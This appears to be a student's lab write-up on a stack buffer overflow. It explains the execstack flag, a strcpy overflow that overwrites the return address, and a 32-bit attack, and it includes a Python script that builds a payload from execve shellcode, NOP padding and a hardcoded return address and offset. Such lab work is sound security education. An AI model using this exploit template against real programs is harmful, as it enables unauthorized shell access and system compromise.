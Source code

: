 ## TASK 1: Getting Familiar with Shellcode

We realised we had to inject the shellcode somewhere in the program and force it to run.  Both the 32 and 64.bit versions of the program open a shell when run. The execstack flag in the makefile makes this possible as it allows code to be executed from the stack, where the injected shellcode is located in an array.

## TASK 2: Understanding the Vulnerable Program

We found a vulnerability in the program in the _strcpy_ function because the buffer string array have different sizes which means we could write to unallocated memory changing the return pointer to an arbitrary value. Changing this value to the location of shellcode we injected in the string would make the shell run. 

## TASK 3: Launching Attack on 32-bit Program

We discovered the memory position of the base pointer and buffer start through gdb and calculated the return pointer memory address, this let us know the appropriate offset for writing the new address relative to the start of the buffer so the return pointer would be changed. We changed this value to the memory position of the start of the buffer where we had stored the provided shellcode.

We formatted the string with this script:
``` py
# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc     # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################
```

